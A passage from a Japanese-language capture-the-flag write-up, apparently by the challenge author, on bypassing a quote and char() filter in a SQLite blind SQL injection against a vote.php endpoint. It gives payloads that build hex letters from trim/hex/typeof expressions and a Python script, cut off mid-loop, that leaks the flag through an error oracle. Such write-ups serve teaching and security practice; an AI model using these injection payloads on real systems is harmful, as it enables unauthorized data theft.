 ### 文字列の代替

この問題では `'` も `"` もフィルターされているため文字列リテラルは使えず、また `char` 関数も同様に使えません。どうやって比較するための文字列を作ればいいのでしょう。

私が想定していた方法は、`hex` 関数でフラグを 16 進数の文字列にエンコードさせることで得たい文字列が使う文字種を `0123456789abcdef` の 16 文字に減らし、これらの文字を頑張って作って結合するというものでした。

`0123456789` は数値リテラルとして解釈させられるので、`1||2` (`||` は文字列の結合演算子) のように文字列として扱うことでそのまま使えます。また `abcdef` については [SQLi filter evasion and obfuscation](https://websec.files.wordpress.com/2010/11/sqli2.pdf#page=38) というスライドと同じ要領で、以下のようにして作ることができます。

```python
table = {}
table['A'] = 'trim(hex((select(name)from(vote)where(case(id)when(3)then(1)end))),12567)' # 'zebra' → '7A65627261'
table['C'] = 'trim(hex(typeof(.1)),12567)' # 'real' → '7265616C'
table['D'] = 'trim(hex(0xffffffffffffffff),123)' # 0xffffffffffffffff = -1 → '2D31'
table['E'] = 'trim(hex(0.1),1230)' # 0.1 → 302E31
table['F'] = 'trim(hex((select(name)from(vote)where(case(id)when(1)then(1)end))),467)' # 'dog' → '646F67'
table['B'] = f'trim(hex((select(name)from(vote)where(case(id)when(4)then(1)end))),16||{table["C"]}||{table["F"]})' # 'koala' → '6B6F616C61'
```

### 最終的なエクスプロイト

ここまで紹介してきたフィルターのバイパス方法を利用して、以下のようなスクリプトを書くことができました。

```python
# coding: utf-8
import binascii
import requests
URL = 'http://(target)/vote.php'

# フラグの長さを特定
l = 0
i = 0
for j in range(16):
  r = requests.post(URL, data={
    'id': f'abs(case(length(hex((select(flag)from(flag))))&{1<<j})when(0)then(0)else(0x8000000000000000)end)'
  })
  if b'An error occurred' in r.content:
    l |= 1 << j
print('[+] length:', l)

# A-F のテーブルを作成
table = {}
table['A'] = 'trim(hex((select(name)from(vote)where(case(id)when(3)then(1)end))),12567)'
table['C'] = 'trim(hex(typeof(.1)),12567)'
table['D'] = 'trim(hex(0xffffffffffffffff),123)'
table['E'] = 'trim(hex(0.1),1230)'
table['F'] = 'trim(hex((select(name)from(vote)where(case(id)when(1)then(1)end))),467)'
table['B'] = f'trim(hex((select(name)from(vote)where(case(id)when(4)then(1)end))),16||{table["C"]}||{table["F"]})'

# フラグをゲット!
res = binascii.hexlify(b'HarekazeCTF{').decode().upper()
for i in range(len(res), l):
  for x in '0123456789ABCDEF':
    t = '||'.join(c if c in '0123456789' else table[c] for c in res + x)
    r = requests.post(URL, data={
      'id': f'abs(case(replace(length(replace(hex((select(flag)from(flag))),{t},trim(0,0))),{l},trim(0,0)))when(trim(0,0))then(0)else(0x8000000000000000)end)'
    })
    if b'An error occurred' in r.content:
```